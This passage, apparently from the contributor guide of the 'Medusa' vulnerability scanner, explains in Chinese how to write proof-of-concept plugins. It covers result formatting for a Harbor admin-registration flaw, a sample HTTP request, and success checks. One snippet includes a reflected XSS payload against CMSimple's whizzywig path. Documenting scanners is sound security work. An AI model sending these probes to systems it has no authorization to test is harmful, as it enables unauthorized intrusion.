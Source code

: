   - 返回结果要可读并且要那种一眼就能看出来的,必须可读容易验证

    ```asciiarmor
    1.1.1.1存在Harbor任意管理员注册漏洞
    验证数据:
    漏洞位置:http://1.1.1.1:80/api/users
    账号:MedusaTextPoc4c5vi
    密码:MedusaTextPoc4c5vi
    注册账号数量:/api/users/10
    ```

  - 如果数据是`Get`请求或者是`Post`请求并存在数据包，应该返回如下信息，验证漏洞直接使用数据包即可(利用`Post`请求举例，`Get`同理)

    ```http
    POST / HTTP/1.1
    Host: www.ascotbe.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: application/ocsp-request
    Content-Length: 83
    Connection: close
    
    id=1&name=xxx
    ```

  - 比如远程执行如果有回显返回回显内容，如果无回显返回`DNSlog`验证数据内容

  
  
- ###### 判断漏洞存在
  - `if`判断一定要唯一性，唯一的返回状态码，唯一只在该漏洞存在的字符串正常页面不会存在的，如下所示:

    ```python
    if code == 201 and head.find("/api/users/")!=-1:
        Medusa = "{}存在Harbor任意管理员注册漏洞\r\n 验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
                                                                                                      payload_url,
                                                                                                      rm,rm,head)
        _t = VulnerabilityInfo(Medusa)
    	VulnerabilityDetails(_t.info, resp,UnixTimestamp).Write()  # 传入url和扫描到的数据
        WriteFile().result(str(url),str(Medusa))#写入文件，url为目标文件名统一传入，Medusa为结果
    ```
    
  - 如果某些数据请求的数据可以自定义，并且返回值中会返回用户自定义的值时，应当在调用随机数的类产生随机数后插入数据`deom`如下
  
    ```python
    from ClassCongregation import randoms
    rm = randoms().result(10)#生成10个随机数
    payload = '/whizzywig/wb.php?d=%27%3E%3Cscript%3Ealert%28%27{}%27%29%3C/script%3E'.format(rm)#传入随机数
    payload_url = scheme + "://" + url + ":" + str(port) + payload
    resp = requests.get(payload_url, timeout=6, verify=False)
    con = resp.text
    if con.find('<script>alert("' + rm + '")</script>') != -1:#随机数内容
        Medusa = "{}存在CMSimple跨站脚本漏洞\r\n漏洞地址:\r\n{}\r\n漏洞详情:{}\r\n".format(url, payload_url, con)
    ```
  
